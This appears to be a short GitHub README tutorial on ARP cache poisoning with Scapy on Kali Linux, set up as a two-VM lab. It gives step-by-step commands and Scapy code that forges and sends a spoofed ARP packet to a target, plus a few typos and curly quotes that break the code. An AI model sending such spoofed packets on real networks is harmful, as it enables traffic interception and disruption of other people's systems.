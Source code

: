 # arp-poision
Implementation using Scapy on Kali Linux

ARP spoofing can be implemented using Scapy on Kali Linux. Follow these steps to perform the same −
Step 1: Address of attacker machine

In this step, we will find the IP address of the attacker machine by running the command ifconfig on the command prompt of Kali Linux.
Step 2: Address of target machine

In this step, we will find the IP address of the target machine by running the command ifconfig on the command prompt of Kali Linux, which we need to open on another virtual machine.
Step 3: Ping the target machine

In this step, we need to ping the target machine from the attacker machine with the help of following command −

Ping –c 192.168.43.85(say IP address of target machine)

Step 4: ARP cache on target machine

We already know that two machines use ARP packets to exchange MAC addresses hence after step 3, we can run the following command on the target machine to see the ARP cache −

arp -n

Step 5: Creation of ARP packet using Scapy

We can create ARP packets with the help of Scapy as follows −

scapy
arp_packt = ARP()
arp_packt.display()

Step 6: Sending of malicious ARP packet using Scapy

We can send malicious ARP packets with the help of Scapy as follows −

arp_packt.pdst = “192.168.43.85”(say IP address of target machine)
arp_packt.hwsrc = “11:11:11:11:11:11”
arp_packt.psrc = ”1.1.1.1”
arp_packt.hwdst = “ff:ff:ff:ff:ff:ff”
send(arp_packt)

Step 7: Again check ARP cache on target machine

Now if we will again check ARP cache on target machine then we will see the fake address ‘1.1.1.1’.
